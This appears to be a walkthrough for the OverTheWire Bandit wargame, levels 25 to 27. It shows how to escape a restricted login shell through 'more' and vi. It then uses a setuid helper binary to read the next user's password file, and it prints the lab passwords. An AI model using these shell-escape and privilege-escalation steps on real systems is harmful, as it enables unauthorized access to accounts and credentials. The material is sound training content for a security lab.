 bandit25@bandit:~$ cat /etc/shells 
# /etc/shells: valid login shells
/usr/bin/showtext

``` sh
bandit25@bandit:~$ cat /usr/bin/showtext 
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0

```

```
bandit25@bandit:~$ $TERM
xterm-256color

bandit25@bandit:~$ cat /home/bandit26/text.txt 
cat: /home/bandit26/text.txt: Permission denied

bandit25@bandit:~$ showtext 
more: cannot open /home/bandit25/text.txt: No such file or directory

bandit25@bandit:~$ whatis more
more (1)             - display the contents of a file in a terminal
```

#### Reduce the size of the terminal to enable 'more' to paging through text one screenful at a time. 
#### Max height = 6

```
ssh -t -i bandit26.sshkey bandit26@localhost -p 2220 /bin/sh
```

```
# enter v (for vi)

:e /etc/bandit_passwd/bandit26
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
```

### Level 26 -> Level 27

Good job getting a shell! Now hurry and grab the password for bandit27!

```ls```

```
:set shell=/bin/bash
:!ls -la
total 36
drwxr-xr-x  3 root     root     4096 Oct 16 14:00 .
drwxr-xr-x 41 root     root     4096 Oct 16 14:00 ..
-rwsr-x---  1 bandit27 bandit26 7296 Oct 16 14:00 bandit27-do
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-rw-r--r--  1 root     root      675 May 15  2017 .profile
drwxr-xr-x  2 root     root     4096 Oct 16 14:00 .ssh
-rw-r-----  1 bandit26 bandit26  258 Oct 16 14:00 text.txt
:!./bandit27-do cat /etc/bandit_pass/bandit27
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

```